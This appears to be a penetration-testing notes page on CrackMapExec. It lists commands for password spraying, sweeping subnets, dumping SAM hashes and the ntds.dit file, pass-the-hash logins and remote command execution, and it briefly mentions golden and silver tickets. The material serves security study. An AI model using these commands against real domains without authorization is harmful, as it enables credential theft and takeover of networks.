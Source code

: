```yaml
---
title: CrackMapExec
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
  - dump hashes
  - passwords
---
```



# CrackMapExec

Once we have access to a domain, CrackMapExec (CME) will allow us to sweep the network and see which users and machines we can access to.

CME allows us to authenticate ourselves with the following protocols:

- smb
- ssh
- mssql
- ldap
- winrm

The most used protocol is smb as port 445 is commonly open.

## Installation

```bash
sudo apt-get -y install crackmapexec
```


## Basic usage

Main syntax

```bash
crackmapexec <protocol> <target-IP> -u <user or userlist> -p <password or passwordlist>
```


```bash
# Check if we can access a machine
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN>

# Spraying password technique
crackmapexec smb $ip -u /folder/userlist.txt -p '<password>' --local-auth --continue-on-success
# --continue-on-success:  continue spraying even after a valid password is found. Useful for spraying a single password against a large user list
# --local-auth:  if we are targetting a non-domain joined computer, we will need to use the option --local-auth.

# Check which machines we can access in a subnet
crackmapexec smb $ip/24 -u <username> -p <password> -d <DOMAIN>

# Get sam: extract hashes from all users authenticated in the machine 
crackmapexec smb $ip -u <username> -p <password> -d <DOMAIN> --sam

# Get the ntds.dit, given that your user has permissions
crackmapexec smb $ip -u <username> -p <password> -d <DOMAIN> --ntds

# See shares
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN> --shares

# Enumerate active sessions
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN> --sessions

# Enumerate users of the domain
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN> --users

# Enumerate logged on users
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN> --loggedon-users

# Using a hash instead of a password, to authenticate ourselves: Pass the hash attack (PtH)
crackmapexec smb $ip -u <username> -H <hash> -d <DOMAIN>

# Execute commands with flag -x
crackmapexec smb $ip/24 -u <Administrator> -d . -H <hash> -x whoami
```



### RCE with crackmapexec:

```bash
#  If the--exec-method is not defined, CrackMapExec will try to execute the atexec method, if it fails you can try to specify the --exec-method smbexec.
crackmapexec smb $ip -u Administrator -p '<password>' -x 'whoami' --exec-method smbexec
```


## Basic technique

Once we have access to  a domain:

1. Enumerate users and machines in our machine: we will have all users registered and their hashes. 

2. See if any user is in another machine of the domain. Also check if they have admin access.

3. Goal would be to dump ntds.dit.

With krbtgt and DC$ user you can get a golden ticket. And with DC$ a silver ticket.


## What is a SAM hash like?

Take the Administrator one:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

Basically, it has 4 parts: 

					user : id: LM-authentication : NTLM

For the purpose of using the hash with CrackMapExec, we will user the NTLM part.






